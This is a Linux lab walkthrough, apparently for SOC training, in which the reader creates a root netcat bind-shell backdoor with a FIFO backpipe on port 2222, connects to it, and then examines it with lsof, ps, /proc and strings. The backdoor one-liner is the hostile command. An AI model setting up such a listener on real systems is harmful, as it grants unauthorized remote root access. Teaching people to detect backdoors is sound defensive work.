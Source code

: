 
# Linux CLI

In this lab we will be looking at a backdoor through the lens of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running three different Ubuntu terminals.

The first will be where we run the backdoor.

The second will be where we connect to it.

The third is where we will be running our analysis.

Let’s get started by opening a Terminal as Administrator

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:


####NOTE##### 

If you are having trouble with Windows Terminal, you can simply start each of the three shells, we use by starting them directly from the Windows Start button. 

 

Simply click the Windows Start button in the lower left of your screen and type: 

 

`Powershell` 

or 

`Ubuntu`

or 

`Command Prompt` 

 

For PowerShell and Command Prompt, please right click on them and select Run As Administrator 

###END NOTE###


On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

The password is adhd.


This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

We will next need to create a fifo backpipe:

<pre>mknod backpipe p</pre>

Next, let's start the backdoor:

`/bin/bash  0<backpipe | nc -l 2222 1>backpipe`

In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the netcat listener. 

Basically, this will create a backdoor listening on port 2222 of our linux system.

Now, let's open another Ubuntu terminal.  This will be the terminal we connect to the above created backdoor with.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Now we will need to know the IP address of our linux system:

<pre>ifconfig</pre>

![](attachments/ifconfigKaliInstance.png)

Now, let's connect:

<pre> nc 127.0.0.1 2222</pre>

Remember!!!  Your IP address will be different!!!!

Now, let's type some commands and make sure it is working

<pre>ls</pre>
<pre>whoami</pre>

![](attachments/lswhoamiKaliInstance.png)

As you can see, we are connected to the simple Linux backdoor as root.  Also notice there was not message saying we successfully connected to the backdoor.  It just drops our cursor back to the left side of the screen.

Now, let's open yet another Ubuntu terminal and start our analysis. This means we have one where we created the backdoor, another that connected to it and this third one will be for the analysis.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt.   We want to be root because looking at network connections and process information systemwide requires root access.  Basically, it is very hard to do your job as a SOC pro without root or admin rights.

Let's start by looking at the network connections with lsof.  When we use lsof, we are looking at open files.  When we use the -i flag we are looking at the open Internet connections.  When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used. Just give us the port number.

<pre>lsof -i -P</pre>


![](attachments/lsof-i-pKaliInstance.png)

Now let's dig into the netcat process ID.  We can do this with the lowercase p switch.  This will give us all the open files associated with the listed process ID.

<pre>lsof -p 131</pre>

![](attachments/lsof-pKaliInstance.png)

Let's look at the full processes.  We can do this with the ps command. We are also adding the aux switches.  This is a for all processes,  u for sorted by user and x to include the processes using a teletype terminal.

<pre>ps aux</pre>

![](attachments/psauxKaliInstance.png)

Let's change directories into the proc directory for that pid.  Remember, proc is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

<pre>cd /proc/[pid]</pre>

![](attachments/procPIDKaliInstance.png)

We can see a number of interesting directories here:

<pre>ls</pre>

![](attachments/lsKaliInstance.png)

Remember!!!  Your PID will be different!!!

We can run strings on the exe in this directory.  This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

<pre>strings ./exe | less</pre>

![](attachments/strings_exelessKaliInstance.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it directly out of memory!

![](attachments/netcatusageKaliInstance.png)

















